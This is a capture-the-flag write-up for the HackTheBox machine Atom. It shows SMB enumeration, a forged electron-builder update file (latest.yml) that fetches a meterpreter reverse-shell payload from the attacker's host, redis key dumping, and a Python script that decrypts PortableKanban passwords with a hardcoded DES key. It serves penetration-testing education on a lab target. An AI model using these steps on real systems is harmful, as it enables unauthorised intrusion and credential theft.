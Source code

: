 ```yaml
---
title: HackTheBox - Atom Writeup
date: 2021-05-08 09:45:47 +07:00
categories: hackthebox
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: HackTheBox Atom Writeup.
---
```


<h1 align="center"> HTB Atom - Writeup</h1>

<p align="center">
 <img src="https://www.hackthebox.eu/storage/avatars/27ea1e1be5e83989ad5b6361773f4eaa.png">
</p>

*[Find the official link for HacktheBox - Atom here!](https://app.hackthebox.eu/machines/340)*


----------------------------------------------------------------------------------------------------

## FOOTHOLD

Start a nmap scan with default script and version detections and the verbosity flag turned on to see open ports on the fly without having to wait for the scan to finish.

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom1.png)

A full port scan reveals redis is active on port `6379` along w winrm at 5985 which shows we can probably use remoting with authentic creds.

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom2.png)

- We start off by enumerating port 80.
    - We find a possible username at the end of the page: MrR3boot@atom.htb.
    - From this we infer and add `atom.htb` to our `/etc/hosts` file. Continue browsing the site.
    - Directory Bruteforcing with gobuster results in nothing too userful, moving on. 

### Enumerating redis

- Much cant be enumerated since redis requires credentials to authenticate. Checking the format of authentication shows it requires only the password. We could attempt to brute force the password if nothing turns up from smb.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom7.png)

### Enumerating smb

- `smbmap` shows use we have access to 2 shares amongst. **Software_Updates** seems interesting as we have **right access** too to it.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom3.png)
- Using `smbclient` to connect to the share with null authentication:
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom4.png)
- Grap the pdf in the share. Looking at the pdf we infer 2 things:
    1. **Built with : electron-builder**
    2. We can place the update in any client folder and the automated script would check the update. We can probably replace some code to give us a shell here.
- This link explains a suitable exploit: [electron-builder-Exploit](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)
- In short is a vulnerability caused by an unescaped variable. We can trigger a parse error in the script to achieve code execution.
- The exploit bypasses inbuilt signature checks as shown below.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom5.png)
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom6.png)

----------------------------------------------------------------------------------------------------

## POST EXPLOITATION

***GETTING user.txt***
- Generate an msfvenom payload of choice . Generate a reverse https executable and then rename it with single quotes.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom8.png)
- Rename the file to the filename as `d'payload.exe` as shown.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom10.png)
- Calculate the hash using the prescribed syntax as shown below: 
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom9.png)
- Setup a listener on msfconsole to catch your shell using `multi/handler`.
- Generate the `latest.yml` file update. Replace the path and the hash.
    ```bash
    version: 1.2.3
    path: http://10.10.14.52/d'payload.exe 
    sha512: a/xp95BNvRKGxbxRZv+1LOEIs9uaSX6wGz6ip+RDX2XjNkTFVJbwIZ9T21SN40sq/78zYZmb9IxATX710s58Rg==
    ```
- Start a server to host `d'payload.exe` using: `sudo python -m SimpleHTTPServer 80`
- Finally put the update file in one of the client folders on the share using smbclient. Wait for about 15-20 secs and let the update happen. A meterpreter shell is recieved.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom11.png)
- A getuid command confirms we are `ATOM\jason`.
- Retrive `user.txt` from jason's dekstop folder.

***GETTING root.txt***
- Enumerate the host with winpeas. Begin by dropping winpeas on the box.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom12.png)
- Jason's credentials do not allow `winrm` remoting. A user guide pdf exists which we might have a look at if needed.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom13.jpg)
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom17.png)
- Since we already know redis was on,  we find its config file. 
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom14.png)
- We finally found the password for the redis server. 
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom15.jpg)
- Use this [guide](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) as a reference to pentest redis.
- Now follow these steps:
    1. Connect to redis using:
    `redis -h 10.10.10.237`
    2. Authenticate using the password:
    `auth pass`
    3. Retrive info on the keyspace using:
    `info keyspace`
    4. We see that there is one databse - number 0 which has 4 keys. View the keys using: `keys *`
    5. We see a bunch of keys. Retrieve the first or last, it might most likely be the administrator's key: `get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0`
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom16.jpg)
- We now have the administrator hash.
- Ater looking a lot on how to decrypt the hash i decided to look back at the "User guide.pdf" to look for further clues.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom18.png)
- Googling around it is figured that portable-kanban stores the settings for the encrypted password.
- Searching around for an exploit an encrypted password disclosure vulnerability is found [here](https://www.torchsec.net/portablekanban-4-3-6578-38136-encrypted-password-disclosure-torchsec/).
- Remove the unnecessary `except` statement.
- The python script:
    ```python
    import json
    import base64
    from des import * 

    #python3 -m pip install des

    try:
        hash = str(input("Enter the Hash : "))
        hash = base64.b64decode(hash.encode('utf-8'))
        key = DesKey(b"7ly6UznJ")
        print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
    except:
        print("Wrong Hash")
    ```
- Install `des` using: `sudo pip3 install des`
- Run the script, input your hash and get the decrypted hash. 
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom20.jpg)
- We now finally have the password for the administrator account. 
- Lets try winrm again using these credentials. The credentials are valid.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom19.jpg)
- Grab `root.txt` from the Desktop of the Administrator's account.

----------------------------------------------------------------------------------------------------





